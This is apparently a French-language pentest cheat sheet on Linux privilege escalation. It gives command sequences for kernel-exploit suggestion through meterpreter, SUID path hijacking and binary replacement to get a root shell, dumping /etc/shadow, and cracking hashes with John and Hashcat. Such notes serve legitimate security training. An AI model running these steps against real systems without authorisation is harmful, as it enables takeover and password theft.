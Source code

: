 # 🐧 Élévation de Privilèges Linux

[← Retour à la table des matières](../README.md)

## Kernel Exploits

### Linux Exploit Suggester
```bash
# Avec une session meterpreter active
# 1. Télécharger le script depuis GitHub
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh

# 2. Upload sur la machine cible
upload /path/to/linux-exploit-suggester.sh

# 3. Ouvrir un shell et exécuter
shell
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh
```

### Exploitation des CVE trouvées
```bash
# Le script liste les exploits et CVE disponibles
# Rechercher les exploits correspondants sur exploit-db.com
# Exemple de workflow :
# 1. Noter les CVE suggérées
# 2. Rechercher sur https://www.exploit-db.com/
# 3. Télécharger et compiler l'exploit
# 4. Exécuter pour obtenir root
```

## SUID Binaries

### Recherche de binaires SUID
```bash
# Trouver tous les binaires SUID
find / -perm -u=s -type f 2>/dev/null

# Exemple de sortie avec SUID :
# -rwsr-xr-x 1 root root 8344 Sep 23 2022 /usr/bin/welcome
# Le 's' indique le bit SUID activé
```

### Analyse d'un binaire SUID
```bash
# Analyser le type de fichier
file /usr/bin/welcome

# Examiner les chaînes de caractères
strings /usr/bin/welcome

# Rechercher les appels système et bibliothèques
ltrace /usr/bin/welcome
strace /usr/bin/welcome
```

### Exploitation SUID - Path Hijacking
```bash
# Si le binaire appelle un autre programme sans chemin absolu
# Exemple : le binaire "welcome" appelle "service"

# 1. Créer un faux binaire malveillant
echo '/bin/bash' > /tmp/service
chmod +x /tmp/service

# 2. Modifier le PATH pour inclure /tmp en premier
export PATH=/tmp:$PATH

# 3. Exécuter le binaire SUID
/usr/bin/welcome
# Résultat : shell root car welcome s'exécute avec les privilèges root
```

### Exploitation SUID - Remplacement de binaire
```bash
# Si un binaire spécifique est appelé et peut être remplacé
# Exemple : le binaire appelle /usr/bin/useless

# 1. Sauvegarder l'original (optionnel)
cp /usr/bin/useless /tmp/useless.bak

# 2. Remplacer par une copie de bash
rm /usr/bin/useless
cp /bin/bash /usr/bin/useless

# 3. Exécuter le binaire SUID principal
/usr/bin/welcome
# Résultat : shell root
```

## Hash Dumping et Cracking

### Récupération des hashes
```bash
# En tant que root, les hashes sont dans /etc/shadow
cat /etc/shadow

# Avec Metasploit (session meterpreter active)
use post/linux/gather/hashdump
set SESSION session_id
run
```

### Cracking avec Metasploit
```bash
# Module de cracking intégré
use auxiliary/analyze/crack_linux
set SHA512 true
# Ajouter les hashes récupérés
run
```

### Cracking avec John the Ripper
```bash
# Combiner passwd et shadow
unshadow /etc/passwd /etc/shadow > hashes.txt

# Cracker avec John
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# Afficher les mots de passe crackés
john --show hashes.txt
```

### Cracking avec Hashcat
```bash
# Identifier le type de hash
hashcat --example-hashes | grep -i sha512

# Cracker (exemple pour SHA512)
hashcat -m 1800 hashes.txt /usr/share/wordlists/rockyou.txt
```

## Techniques supplémentaires

### Sudo Privileges
```bash
# Vérifier les privilèges sudo
sudo -l

# Rechercher des binaires exploitables
# Consulter GTFOBins : https://gtfobins.github.io/
```

### Cron Jobs
```bash
# Vérifier les tâches cron
cat /etc/crontab
ls -la /etc/cron.*
crontab -l
```

### Services et processus
```bash
# Processus en cours d'exécution
ps aux

# Services actifs
systemctl list-units --type=service --state=active
```